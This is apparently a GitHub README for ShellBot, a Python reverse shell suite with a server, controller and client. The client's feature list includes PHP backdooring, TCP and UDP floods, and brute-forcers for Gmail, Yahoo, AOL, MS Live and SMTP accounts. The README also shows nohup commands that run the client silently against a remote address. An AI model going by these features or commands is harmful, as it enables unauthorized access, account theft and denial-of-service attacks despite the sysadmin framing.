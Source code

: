 # ShellBot
[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot.svg?type=shield)](https://app.fossa.com/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot?ref=badge_shield)


##### An advanced reverse shell written in Python3.

---

ShellBot is a cross-platform Remote Shell Suite where the Server can be managed by 1 Controller at a time.

A server can accept several clients at once, and relay a chosen client's shell to the controller.

This makes it easy for an SysAdmin to manage several computers with minimal setup in an internal network.

The ShellBot suite is designed in such a way that it will not stop till a connection is achieved. All errors are handled internally and in case of a crash, the program automatically restarts.

---

#### Features:

##### Server:
1. Can handle multiple connections all at once.
1. The Controller’s connection requires a plain text password, it’s not the best security, but at-least it is better than nothing. Will be improved on in future revisions.
1. Kicks the Controller after 5 mins. (As the Server only accepts 1 controller at a time). *TODO: Make it 5 minutes after inactivity.*

##### Client:
1. Infected PHP Backdooring Function. <i>(Linux Only)</i>
1. TCP Flood.
1. UDP Flood.
1. Gmail Bruteforcer. (Workaround Gmail's SMTP login)
1. MS Live Bruteforcer.
1. Yahoo Bruteforcer.
1. AOL Bruteforce.
1. Custome SMTP Bruteforcer. If found, the password will be saved as "password.txt" on the client.
1. OTA Updating.
1. Hardened Shell: Handles No Output, Wrong, Interactive and Infinite commands will result in losing the shell.
1. Can handle multiple commands separated by semi-colon (;).
1. Never closes and is always trying to connect to the Server.
1. Can handle almost any non-interactive command properly.
1. Uses very less resources.
1. Can be packaged into executables with tools like pyInstaller. 

##### Controller:
1. Handles `KeyboardInterrupts`, empty commands, etc. perfectly.
1. Easy user interface.

**Note:** When trying to start the client through SSH, Terminal or any other interactive shell, it is advised to start the client in another process. This can be done in Linux with `nohup`.

###### Example:

```sh
nohup python3 client.py 15.48.158.15 1567 > /dev/null &

nohup python3 client.py 15.48.158.15 1567 > /dev/null 2>&1 &
```

## License
[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot.svg?type=large)](https://app.fossa.com/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot?ref=badge_large)